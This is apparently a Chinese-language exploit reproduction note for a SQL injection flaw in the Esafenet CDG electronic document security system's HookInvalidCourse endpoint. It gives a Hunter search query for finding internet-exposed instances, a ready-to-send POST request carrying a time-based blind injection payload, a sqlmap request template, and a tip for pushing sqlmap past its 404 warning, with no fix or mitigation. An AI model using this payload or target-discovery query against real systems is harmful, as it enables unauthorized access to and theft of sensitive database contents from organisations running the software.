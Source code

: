 # 亿赛通电子文档安全管理系统HookInvalidCourse存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统HookInvalidCourse存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/7gxekhf2pSLNh1iS/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-152117.png)

# 四、漏洞复现
```plain
POST /CDGServer3/system/HookInvalidCourse;loginService HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

command=DelHookInvalidCourse&id=1';WAITFOR DELAY '0:0:3'--
```

![1700640331102-534fff64-497a-4026-b8e7-f9d06ccf3ec5.png](./img/7gxekhf2pSLNh1iS/1700640331102-534fff64-497a-4026-b8e7-f9d06ccf3ec5-709855.png)

sqlmap

```plain
POST /CDGServer3/system/HookInvalidCourse;loginService HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

command=DelHookInvalidCourse&id=1
```

注意：不能使用`--batch`参数，因响应为`404`，`sqlamp`

```plain
[CRITICAL] page not found (404)
it is not recommended to continue in this kind of cases. Do you want to quit and make sure that everything is set up properly? [Y/n] n
```

![1700640609001-6b08c95b-d829-4fed-9d7d-2228ef7ac450.png](./img/7gxekhf2pSLNh1iS/1700640609001-6b08c95b-d829-4fed-9d7d-2228ef7ac450-411173.png)



![1700640620447-993fc465-1bf0-4c9a-8198-449f65c79dfd.png](./img/7gxekhf2pSLNh1iS/1700640620447-993fc465-1bf0-4c9a-8198-449f65c79dfd-484765.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uw9gw8vdvw99v8i3>